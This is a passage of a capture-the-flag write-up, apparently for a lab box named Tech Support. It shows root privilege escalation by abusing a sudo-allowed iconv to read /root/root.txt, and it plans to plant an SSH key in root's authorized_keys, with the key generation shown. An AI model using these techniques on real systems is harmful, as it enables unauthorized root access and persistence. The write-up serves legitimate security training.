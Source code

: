 ## GTFObins

Now we can search on [GTFObins](../../3%20-%20Tags/Hacking%20Tools/GTFObins.md) for iconv :

![Pasted image 20250720173537.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250720173537.png)

We can run `iconv` as root, and according to [GTFObins](https://gtfobins.github.io/gtfobins/iconv/), this can be used to read and write files as root.

This means we could go ahead and read `/root/root.txt`, but what we really want is a root shell :

```
scamsite@TechSupport:/usr/bin$ sudo iconv -f 8859_1 -t 8859_1 "/root/root.txt"
851b8233a8c09400ec30651bd1529bf1ed02790b  -
```

To achieve this we can generate a keypair on our machine and exploit our ability to run iconv as root to add our public key to root’s authorized keys file. This will allow us to SSH to the box as root.

## Ssh-Keygen

We can use [SSH-KeyGen](../../3%20-%20Tags/Hacking%20Tools/SSH-KeyGen.md) to generate the key,then write it to our victim via iconv, and access [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) from our machine as root users :

```
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Tech_Support1]
└─$ ssh-keygen             
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/mdn0x/.ssh/id_ed25519): 
/home/mdn0x/.ssh/id_ed25519 already exists.
Overwrite (y/n)? y
Enter passphrase for "/home/mdn0x/.ssh/id_ed25519" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/mdn0x/.ssh/id_ed25519
Your public key has been saved in /home/mdn0x/.ssh/id_ed25519.pub
The key fingerprint is:
SHA256:6n1u9ZUAmxsgf/uMiJkrxQSFgIGsy50tC4ZqAGfQkHA mdn0x@mdn0xonKali
The key's randomart image is:
+--[ED25519 256]--+
|*=E.. o.         |
|++.  o . . .     |
|..    . o . +    |
|o o    . . = .   |
|++. o o S . + . .|
|++ + . +   o.  ..|
|+ . o o + ..+. . |
|.. . o = .o. o.  |
|.     o.o+.      |
+----[SHA256]-----+
                                                                                                                                       
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Easy/Tech_Support1]
└─$ cat /home/mdn0x/.ssh/id_ed25519.pub 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJA+tMna9rGddaMWghUGuaN4hjdebm4RXFbqx62kiItg mdn0x@mdn0xonKali
```